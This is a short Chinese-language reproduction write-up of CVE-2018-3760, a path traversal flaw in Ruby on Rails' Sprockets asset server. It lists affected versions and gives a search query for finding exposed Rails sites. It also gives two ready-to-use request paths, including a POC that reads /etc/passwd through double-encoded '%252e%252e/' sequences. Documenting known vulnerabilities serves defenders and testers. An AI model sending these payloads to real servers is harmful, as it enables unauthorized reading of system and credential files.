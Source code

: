 # Rails sprockets 任意文件读取漏洞 CVE-2018-3760

## 漏洞描述

Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On Rails是著名Ruby Web开发框架，Sprockets是编译及分发静态资源文件的Ruby库。

Sprockets 3.7.1及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用%252e%252e/来跨越到根目录，读取或执行目标服务器上任意文件。

## 漏洞影响

<a-checkbox checked>Sprockets < 3.7.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Ruby On Rails"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1656041292346-1069b91e-aa5e-4d53-821a-9150720e9b5e.png)

先获取绝对路径

```php
/assets/file:%2f%2f/etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1656041358544-854ca040-261f-474f-86fc-61a8558e4238.png)

再利用POC读取文件

```php
/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1656041483857-17cdbe06-5526-4b80-9189-b4ec9ea0b834.png)